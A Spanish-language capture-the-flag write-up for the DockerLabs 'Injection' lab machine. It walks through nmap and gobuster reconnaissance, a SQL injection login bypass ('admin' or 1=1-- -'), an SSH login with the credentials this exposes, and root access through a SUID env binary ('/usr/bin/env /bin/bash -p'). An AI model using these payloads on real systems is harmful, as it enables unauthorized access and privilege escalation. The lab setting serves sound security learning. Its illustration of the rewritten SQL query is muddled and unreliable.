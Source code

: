 # INJECTION - DOCKERLABS

## INFORMACiÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Injection. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./injection.tar`. De esta forma se ejecutará el contendor de docker de la máquina

### descripción

- Dificultad: muy fácil
- Sistema Operativo: Linux
- Autor: El Pingüino de Mario

## RECONOCIMIENTO DE RED

### conectividad y SO

Comprobamos la conectividad con la máquina: `ping -c 1 172.17.0.2`.
> `-c 1`: solo enviar1 paquete ICMP

![image](https://github.com/user-attachments/assets/53747492-e791-4a6c-9b42-ae246908f258)

Vemos que nos llega la respuesta de la máquina, con un TTL de 64 por lo que su SO es Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`


#### puertos abiertos

**22 - TCP - SSH**
**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre los puertos abiertos: `nmap -p22,80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p22,80` hacer el escaneo sobre el puerto 22 y el 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Primero lanzamos desde la consola el comando `whatweb http://172.17.0.2`
![image](https://github.com/user-attachments/assets/e1a8597a-9606-4235-afa9-2dae86bfdb69)

Vemos que es un Apache 2.4.52. También vemos un campo de contraseña y una cookie de sesión, lo que significa que debe haber una base de datos y un panel de login.
Si vemos por el navegador la raíz de la web, solo está el archivo por defecto de Ubuntu.
Probamos a hacer un fuzzing básico con gobuster: `gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,py`
> `dir` fuzzing de directorios

> `-u http://172.17.0.2` URL

> `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` diccionario

> `-x txt,php,py` fuzzeamos las extensiones .txt, .php y .py.

Gobuster encuentra los archivos `index.php` y `config.php`. En el index.php hay un panel de login:
![image](https://github.com/user-attachments/assets/0dde8c96-a12a-4bc4-b9ad-d2155b2d2905)

Al poner una comilla en el campo de usuario, sale un error de MariaDB. Esto nos da la información de que el motor de base de datos que se usa es MariaDB, y de que el panel de login es vulnerable a inyección SQL.

## EXPLOTACIÓN WEB

Para bypassear el panel de login, probamos a poner de usuario `admin' or 1=1-- -`, ya que el usuario admin suele ser un nombre común para administradores. Y de contraseña ponemos cualquier cosa.
Al hacer esto, se consigue bypassear el panel de login ya que la query de SQL del servidor pasa de ser así:
`login where user_password == login_password`
a ser así:
`login where user_passsword == login_password ' or 1=1-- -`
de forma que siempre devuelve True.

Una vez logeados vemos esto:

![image](https://github.com/user-attachments/assets/cba5b31a-5c44-489f-ae00-bc9b5d5302a3)

Obtenemos unas credenciales que serían dylan:KJSDFG789FGSDF78. Esto es muy útil ya que el puerto 22 del SSH está abierto, así que se puede probar a conectarse con estas contraseñas: `ssh dylan@172.17.0.2` y de contraseña "KJSDFG789FGSDF78".

Y estamos dentro:

![image](https://github.com/user-attachments/assets/fc0b5cce-da31-4922-a463-66178e7ae291)

## ESCALADA DE PRIVILEGIOS

Buscamos archivos con permisos SUID desde la raíz del sistema: `find / -perm -4000 2>/dev/null`.
> `-perm -4000` buscar archivos con permisos SUID

> `2>/dev/null` redirigir el los errores al `/dev/null` para no mostrarlos y eliminar el ruido.

Vemos los siguientes archivos:

![image](https://github.com/user-attachments/assets/33d11eea-c946-4dd7-9af5-4e8ac1c26d07)

Podemos ir buscando en [gtfobins](https://gtfobins.github.io) cada binario y ver si se puede escalar privilegios si es SUID.
El binario `/usr/bin/env` es una vía para ganar privilegios, ya que con él se pueden ejecutar comandos, de forma que como es SUID y so propietario es root, los ejecutamos como root. Entonces para ganar una bash como root hacemos `/usr/bin/env /bin/bash -p`.
> `-p` lanzar la bash de forma privilegiada y tomar el UID de root en vez de seguir con el de dylan.

Y así ya tenemos una bash como root:

![image](https://github.com/user-attachments/assets/2badfe77-7e7f-4a8f-8567-9a873f71777c)